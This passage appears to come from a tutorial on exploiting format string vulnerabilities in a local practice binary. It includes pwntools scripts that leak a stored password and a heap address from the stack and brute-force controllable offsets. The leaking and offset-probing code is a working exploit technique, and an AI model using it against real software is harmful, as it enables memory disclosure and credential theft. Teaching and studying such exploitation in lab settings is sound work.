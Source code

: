In the image it's possible to see that we can leak the password from the stack in the `10th` position:

<figure><img src="../../.gitbook/assets/image (1234).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1233).png" alt="" width="338"><figcaption></figcaption></figure>

### Read data

Running the same exploit but with `%p` instead of `%s` it's possible to leak a heap address from the stack at `%25$p`. Moreover, comparing the leaked address (`0xaaaab7030894`) with the position of the password in memory in that process we can obtain the addresses difference:

<figure><img src="broken-reference" alt="" width="563"><figcaption></figcaption></figure>

Now it's time to find how to control 1 address in the stack to access it from the second format string vulnerability:

```python
from pwn import *

def leak_heap(p):
    p.sendlineafter(b"first password:", b"%5$p")
    p.recvline()
    response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
    return int(response, 16)

for i in range(30):
    p = process("./fs-read")

    heap_leak_addr = leak_heap(p)
    print(f"Leaked heap: {hex(heap_leak_addr)}")

    password_addr = heap_leak_addr - 0x126a

    print(f"Try: {i}")
    payload = f"%{i}$p|||".encode()
    payload += b"AAAAAAAA"
    
    p.sendline(payload)
    output = p.clean()
    print(output.decode("utf-8"))
    p.close()
```

And it's possible to see that in the **try 14** with the used passing we can control an address:

<figure><img src="broken-reference" alt="" width="563"><figcaption></figcaption></figure>

### Exploit

```python
from pwn import *

p = process("./fs-read")

def leak_heap(p):
    # At offset 25 there is a heap leak
    p.sendlineafter(b"first password:", b"%25$p")
    p.recvline()
    response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
    return int(response, 16)

heap_leak_addr = leak_heap(p)
print(f"Leaked heap: {hex(heap_leak_addr)}")
```